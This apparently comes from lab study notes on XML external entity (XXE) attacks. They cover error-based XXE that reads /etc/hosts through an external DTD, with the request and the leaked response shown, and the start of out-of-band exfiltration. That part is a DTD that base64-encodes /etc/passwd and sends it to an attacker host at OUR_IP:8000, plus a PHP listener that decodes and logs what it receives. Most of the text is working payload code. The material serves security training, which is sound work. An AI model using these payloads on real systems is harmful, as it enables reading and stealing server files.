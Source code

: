 ``` HTTP
Check your email for further instructions.
```
- The request we sent caused the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files.
- Attack host
``` bash
cat > xxe.dtd
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
^C
python3 -m http.server 8000
```
The web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.
- Call our external DTD script, and then reference the `error` entity:
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- Response
``` HTTP
HTTP/1.1 200 OK

<b>Notice</b>:  DOMDocument::loadXML(): PEReference: %nonExistingEntity; not found in http://10.10.15.200:8000/xxe.dtd, line: 2 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  DOMDocument::loadXML(): Invalid URI: /127.0.0.1 localhost
127.0.1.1 academy_webattacks_xxe

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
[SNIP].....
```
`this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.
### Out-of-band Data Exfiltration
Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.
#### Manually 
* On attacker machine
Create `xxe.dtd` with the content:
``` dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
Create `index.php` with the content:
``` PHP
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
Start PHP server:
``` bash
php -S 0.0.0.0:8000
```